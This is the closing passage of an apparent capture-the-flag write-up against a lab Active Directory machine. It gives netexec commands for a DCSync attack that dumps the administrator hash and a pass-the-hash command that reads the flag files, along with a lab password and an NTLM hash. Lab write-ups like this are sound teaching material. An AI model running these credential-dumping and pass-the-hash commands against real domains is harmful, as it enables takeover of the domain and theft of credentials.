<figure><figcaption><p>Figure 28: Cracking mrlky' hash with Hashcat.</p></figcaption></figure>

Finally, all we have to do is:

1. Get `administrator`'s hash by performing a [DCSync](../../tl-dr/tl-dr/active-directory/dcsync.md) attack with `mrlky`'s credentials
2. Use the hash to compromise the domain by reading both flags :crossed\_flags: (Figure 29).&#x20;


```bash
# write mrlky's password into a file
echo "Football#7" > mrlky_pass
# perform the DCSync attack
nxc smb 10.10.10.103 -u mrlky -p mrlky_pass --ntds --user administrator
# write admin's hash into a file
echo "f6b7160bfc91823792e0ac3a162c9267" > admin_hash
# compromise the domain by reading both flags
nxc smb 10.10.10.103 -u administrator -H admin_hash -x 'type c:\users\mrlky\desktop\user.txt;type c:\users\administrator\desktop\root.txt'
```


<figure><figcaption><p>Figure 29: Compromising the domain by grabbing the flags!</p></figcaption></figure>

## Resources














